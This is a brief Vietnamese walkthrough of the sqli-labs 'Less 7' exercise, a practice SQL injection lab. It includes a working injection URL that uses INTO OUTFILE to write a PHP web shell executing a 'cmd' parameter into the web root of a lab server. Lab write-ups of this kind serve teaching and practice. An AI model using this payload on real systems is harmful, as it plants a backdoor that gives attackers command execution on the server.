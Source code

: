 # Less 7

Đề yêu cầu nhập vào một giá trị ID

![](../images/sqli-labs/Less-7/01.png)

Nhập thử vào một vài giá trị 

![](../images/sqli-labs/Less-7/02.png)

Thử nhập vào một số giá trị khác để hiển thị lỗi

![](../images/sqli-labs/Less-7/03.png)

Chưa thấy báo lỗi tiếp tục thử

![](../images/sqli-labs/Less-7/04.png)

![](../images/sqli-labs/Less-7/07.png)

Như vậy ta thấy đã xảy ra lỗi. Nhưng ta thấy các một điều khác với các bài trước. Ở trong bài này nó không hiện ra lỗi cụ thể. Có thể người lập trình đã can thiệp vào các lỗi hiển thị ra. Như vậy ta rất khó để phán đoán và không thể đọc dữ liệu bằng cách làm cho nó lỗi.

Ta tiếp tục thử để xem có thể pass qua được gì từ câu query ở bên dưới hay không

Sau nhiều lần thử (và dựa vào kinh nghiệm từ các bài trước) tôi có thể đoán ra được câu query ở đây có thể là

```
select * from table where id=(('$ID')) limit 0,1
```

![](../images/sqli-labs/Less-7/08.png)

Nhưng ở đây ta không thể tận dụng điều này để hiển thị thông tin như ở những bài trước. Mà ở bài này ta chỉ có thể truyền vào server một đoạn code PHP 

```
http://192.168.84.233/sqli-labs/Less-7/?id=1')) union select 1,2,"<?php system($_REQUEST['cmd']);?>" INTO OUTFILE '/var/www/html/tests/1.php' --+
```

Ta thấy nó vẫn báo lỗi

![](../images/sqli-labs/Less-7/05.png)

Nhưng thực ra ta đã add thành công

![](../images/sqli-labs/Less-7/06.png)
